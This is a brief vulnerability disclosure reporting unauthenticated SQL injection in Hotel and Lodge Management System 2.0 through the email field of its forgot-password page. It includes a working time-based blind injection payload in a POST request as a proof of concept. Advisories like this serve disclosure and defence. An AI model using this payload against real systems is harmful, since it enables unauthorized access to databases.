 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI
Disclosure date: 10/24/19

Hotel and Lodge Management System is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'Email'.

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)

